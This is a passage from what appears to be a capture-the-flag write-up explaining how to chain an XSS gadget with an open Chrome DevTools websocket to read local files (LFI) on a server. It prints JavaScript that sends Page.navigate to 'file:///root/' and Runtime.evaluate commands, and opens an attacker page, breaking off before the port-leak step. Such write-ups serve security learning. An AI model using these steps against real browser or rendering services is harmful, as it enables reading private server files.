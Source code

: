 ![](SOP.png)

---
## ⛓️ - Chaining all together

What's next? We have an **XSS gadget**, we can interact with the **devtools websocket**, and **read the contents of the cache**.

We mentioned earlier that if we could access the websockets urls, **we could LFI the server**. So here we go !

With the websocket, **we can redirect the page and XSS on anythings**, like the `file:///` protocol, because websocket is kept open through the devtools ! 

We can do that with something like this :

```js
ws.send(JSON.stringify({ id: 0, method: 'Page.navigate', params: { url: 'file:///root/' } }));
ws.send(JSON.stringify({ id: 1, method: 'Runtime.evaluate', params: { expression: 'alert(document.body.innerHTML)' } }));
``` 


{{< alert icon="fire" cardColor="#7d571e">}}
From now, everything is through the XSS gadget !
{{< /alert >}}

1) **Open a base tab, don't care about is content**

This will be our websocket target 

```js
const targetPageUrl = 'https://secu.fun/exploit';

window.open(targetPageUrl, '_blank'); // This will be our exploit page, must not be empty
```

2) **We will need to leak the devtools port**
